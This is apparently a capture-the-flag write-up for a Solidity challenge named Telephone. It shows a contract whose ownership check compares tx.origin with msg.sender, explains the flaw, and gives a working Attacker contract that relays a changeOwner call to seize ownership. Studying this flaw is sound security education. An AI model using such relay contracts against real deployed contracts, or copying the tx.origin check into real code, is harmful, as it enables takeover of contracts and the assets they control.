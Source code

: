 # Telephone

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Goal

Change the owner of the Telephone smart contract

## Exploit

Similar to the previous Coin Flip CTF, we will again need additional smart contract to complete this challenge, again this contract will be named Attacker

In order to win this challenge we need to change the owner of the contract, and looking into the code we can see that there is chageOwner() function, with some additional requirement. So let's jump to it!

As seen inside changeOwner() function, in order to change the owner we first make the following check:

```
  if (tx.origin != msg.sender)
```

What this is checking is if the originator of the transaction is different from the msg.sender (the account from which changeOwner() function is called).
With that in mind, in order to solve the challenge we will need to find a way to "forward" the call to changeOwner() from another smart contract.
Kepp in mind that tx.origin will always be an externally owned account (EOA) and confusing tx.origin with msg.sender can lead to phishing-style attacks.

To exploit the contract we need to:

1. create Attacker contract, and send the address of the the Telephone contract inside the Attacker contract
2. create changeOwnerFromAttacker() external function inside the Attacker contract, inside this function we will call the changeOwner(_owner) function from Telephone smart contract, passing msg.sender as argument for the _owner, this is the part where we are forwarding the call
3. call the changeOwnerFromAttacker() function inside the Attacker contract
4. this will change the owner of the Telephone contract setting our EOA account as the owner

## Attacker contract code

```
contract Attacker {

  address private telephoneContractAddress;

  constructor(address _tel) {
    telephoneContractAddress = _tel;
  }

  function changeOwnerFromAttacker() external {
    (bool success, ) = telephoneContractAddress.call(abi.encodeWithSignature("changeOwner(address)", msg.sender));
    require(success, "Transaction failed");
  }
}
```